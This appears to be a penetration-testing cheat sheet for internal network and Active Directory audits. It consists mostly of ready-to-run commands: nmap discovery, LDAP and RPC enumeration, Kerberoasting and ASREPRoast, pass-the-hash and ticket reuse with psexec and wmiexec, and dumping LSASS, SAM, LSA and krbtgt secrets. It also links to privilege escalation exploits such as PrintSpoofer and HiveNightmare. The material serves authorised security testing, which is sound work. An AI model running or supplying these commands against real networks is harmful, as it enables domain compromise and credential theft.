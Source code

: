 # Internal Audit - Plan

{% embed url="https://pentestbook.six2dez.com/others/internal-pentest" %}

{% file src="../../.gitbook/assets/Pentest_Active_Directory_Environment_1666475020.pdf" %}

## Network discovery

### Scanning

```bash
# BEST - https://miloserdov.org/?p=5248
# discover
sudo nmap -v -sn -PE -n --min-hostgroup 1024 --min-parallelism 1024 -oX nmap_output.xml $network_ip
# extract the hosts
grep -A 2 'up' nmap_output.xml | grep -E -o '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' > hosts.txt
# scan them, find routers
sudo nmap -v -PE -n --min-hostgroup 1024 --min-parallelism 1024 -p 80,443,8080,1080 --open -iL hosts.txt -oX nmap_routers.xml

# OTHERS
# Ping discovery, Top 20, fragment packets, no DNS resolution
nmap -v --top-ports 20 $ip/24 -f -n --open -oA
# Ping discovery, Top 200, fragment packets, no DNS resolution, service version
nmap -v --top-ports 200 $ip/24 -f -n -sV --open -oA
# Top 1000, fragment packets, no DNS resolution, service version, all alive (no ping)
nmap -v --top-ports 1000 $ip/24 -f -n -sV -Pn --open -oA
```

## Windows AD

{% embed url="https://wadcoms.github.io" %}
Check this
{% endembed %}

### If you have no credentials

```bash
# get basic infos
cme smb $ip

# Detect SMB on network
responder-RunFinger -i X.X.X.0/24

# Find DC
nslookup -q=srv _ldap._tcp.dc._msdcs.<domain.name>
nslookup -type=srv _ldap._tcp.<domain.name> | grep ldap | cut -d ' ' -f 6 | sed 's/\.$//g'

# Enumerate DC
ldapsearch -h <DC.IP> -x -s base namingcontexts

# Check for null session, if got users go for ASREPRoast with GetNPUsers
ldapsearch -h <DC.IP> -x -b "DC=XX,DC=XX"

# Get hashes with no krb preauth
GetNPUsers.py [Domain Name]/ -dc-ip [Domain Controller IP address] -request
GetNPUsers.py 'DC.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.10

# Get domain name
crackmapexec smb 10.10.10.10
smbmap -H $dc_ip -u '' -p ''

# Get Users List
GetADUsers.py DC.local/ -dc-ip $dc_ip -debug

# Get Users from ldap
windapsearch -U — full — dc-ip $dc_ip

# Get base domain
ldapsearch -x -h $dc_ip -s base namingcontexts

# Get more info from DC
ldapsearch -x -h $dc_ip -b ‘DC=DCNAME,DC=LOCAL’

# User Domain info
Get-ADUser $name

# Forest info
Get-ADForest

# Get all computers in the current domain
Get-NetComputer
```

#### Kerberos

```bash
# Kerberoasting (hashcat 13100)
GetUserSPNs.py -request -save -dc-ip <IP> domain/user # hashcat 13100

# Bruteforce usernames and passwords with kerbrute
kerbrute.py -d <DC.LOCAL> -users <users_file> -passwords <passwords_file> -outputfile <output_file>

# ASREPRoast (hashcat 18200)
GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# PTH/PTK
# Request ticket
getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
getTGT.py <domain_name>/<user_name>:[password]
# Set ticket
export KRB5CCNAME=<TGT_ccache_file>
# Use it
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
psexec.py -hashes 'hash' -dc-ip 10.10.10.10 username@10.10.10.10
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### If you have credentials

```bash
# Enum AD AIO
# https://github.com/CasperGN/ActiveDirectoryEnumeration
python3 -m ade --dc <domain.name> -u <user@domain.name> --help
# https://github.com/adrecon/ADRecon from Windows on Domain

# windapsearch
# https://github.com/ropnop/go-windapsearch
windapsearch -d <domain>.<name> -u <user> -p <password> --help

# LDAP
# best tool : ldeep - https://github.com/franc-pentest/ldeep
ldeep ldap -u <USER> -p <PASSWORD> -d <DOMAIN> -s ldap://<DC_IP_OR_LDAP_SERV> all ldap_dump_

# Domain users
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(&(objectClass=user)(objectCategory=person))" name sAMAccountName userPrincipalName memberOf primaryGroupID adminCount userAccountControl description servicePrincipalName objectSid pwdLastSet lastLogon -E pr=1000/noprompt | tee domain_users.txt

# Domain computers
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=computer)" name dNSHostname memberOf operatingSystem operatingSystemVersion lastLogonTimestamp servicePrincipalName description userAccountControl | tee domain_computers.txt

# Domain groups
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=group)" name sAMAccountName memberOf member description objectSid | tee domain_groups.txt

# RPClient - enumeration users, groups, ...
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c dsr_enumtrustdom
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomains
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomusers
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomgroups

# CME
# Run commands

# PS
cme smb <IP> -u <USER> -p '<PASS>' -X 'Get-Host'
# CMD
cme smb <IP> -u <USER> -p '<PASS>' -x whoami
# PTH
cme smb <IP> -u <USER> -H <NTHASH> -x whoami
# Other methods
cme smb <IP> -u <USER> -p '<PASS>' --exec-method {mmcexec,smbexec,atexec,wmiexec}

# Dumps
# LSASSY
cme smb <IP> -d <DOMAIN> -u <USER> -p <PASS> -M lsassy
# SAM
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sam
# LSA
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --lsa
# Sessions
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sessions
# Logged users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --loggedon-users
# Disks
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --disks
# Users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --users #Enumerate users
# Groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --groups
# Local groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --local-groups
# Password policy
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --pass-pol
```

#### Dumps secrets

```bash
# User hash
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user user1

# krbtgt hash dump -> Golden Ticket
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user krbtgt
```

### Local Privilege Escalation

#### Juicy Potato

{% hint style="info" %}
**Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation**

Works only until Windows Server 2016 and Windows 10 until patch 1803.
{% endhint %}

{% embed url="https://github.com/ohpe/juicy-potato" %}

{% embed url="https://github.com/TsukiCTF/Lovely-Potato" %}

#### PrintSpoofer

{% hint style="info" %}
**Exploit the PrinterBug for System Impersonation**

Works for Windows Server 2019 and Windows 10.
{% endhint %}

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

#### RoguePotato

{% hint style="info" %}
**From Service Account to System**

Works for Windows Server 2019 and Windows 10.
{% endhint %}

{% embed url="https://github.com/antonioCoco/RoguePotato" %}

#### Abusing Token Privileges

{% embed url="https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation" %}

#### SMBGhost CVE-2020–0796

{% embed url="https://github.com/danigargu/CVE-2020-0796" %}

#### CVE-2021–36934 (HiveNightmare/SeriousSAM)

{% embed url="https://github.com/cube0x0/CVE-2021-36934" %}

## Linux

### Lynis

{% hint style="info" %}
Lynis is a **battle-tested security tool** for systems running Linux, macOS, or Unix-based operating system. It performs an extensive health scan of your systems to support system hardening and compliance testing.
{% endhint %}

In order to install **Lynis** on your system, you must follow these steps :

```bash
git clone https://github.com/CISOfy/lynis.git
cd lynis
./lynis audit system -Q
```
